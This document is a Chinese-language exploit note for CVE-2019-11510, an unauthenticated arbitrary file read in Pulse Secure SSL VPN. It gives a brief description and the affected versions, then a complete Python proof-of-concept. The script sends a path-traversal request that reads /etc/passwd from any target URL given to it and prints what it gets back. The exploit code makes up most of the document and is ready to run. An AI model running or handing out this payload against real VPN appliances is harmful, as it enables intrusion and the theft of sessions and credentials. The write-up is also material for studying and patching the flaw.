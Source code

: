 （CVE-2019-11510）Pulse Secure SSL VPN 任意文件读取
===================================================

一、漏洞简介
------------

Pulse Secure Pulse Connect Secure（又名 PCS，前称 Juniper Junos
Pulse）是美国 Pulse Secure 公司的一套 SSL VPN 解决方案。爆发的
CVE-2019-11510
该漏洞是由于所引入的一项通过浏览器访问其他端口的新功能缺乏安全限制所导致的，任意攻击者都可在未经身份验证的情况下利用该漏洞，读取系统敏感文件，获取
session、明文密码等敏感信息，从而非法入侵并操控
VPN，从而进一步威胁企业内网服务。

二、漏洞影响
------------

Pulse Secure PCS 9.0RX

Pulse Secure PCS 8.3RX

Pulse Secure PCS 8.2RX

Pulse Secure PCS 8.1R15.1

三、复现过程
------------

### poc

    Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py

![1.png](./.resource/(CVE-2019-11510)PulseSecureSSLVPN任意文件读取/media/rId25.png)

    # -*- coding:utf-8 -*-
    # !/usr/bin/env python

    import sys
    import urlparse
    import requests
    import warnings
    import traceback

    reload(sys)
    sys.setdefaultencoding('utf-8')
    requests.packages.urllib3.disable_warnings()
    warnings.filterwarnings("ignore")

    def CVE_2019_11510(base_url):
        try:
            payloads, keywords = "/dana-na/../dana/html5acc/guacamole/../../../../../../../etc/passwd?/dana/html5acc/guacamole/", "root:x"
            r = requests.get(base_url + payloads, verify=False)
            r.close()
            if keywords in r.text:
                print "[✓] Found CVE-2019-11510 Vuln address(curl --path-as-is -s -k <target>):\n{}\n{}".format(
                    base_url + payloads, r.content)
            else:
                print "[x] Not Found Vuln!"
        except requests.exceptions.ConnectionError:
            pass
        except requests.ReadTimeout:
            pass
        except:
            traceback.print_exc()

    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print '[+] Tip: python Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py <url>'
            sys.exit(0)
        url = sys.argv[1]
        CVE_2019_11510(urlparse.urlparse(url).scheme + "://" + urlparse.urlparse(url).hostname)
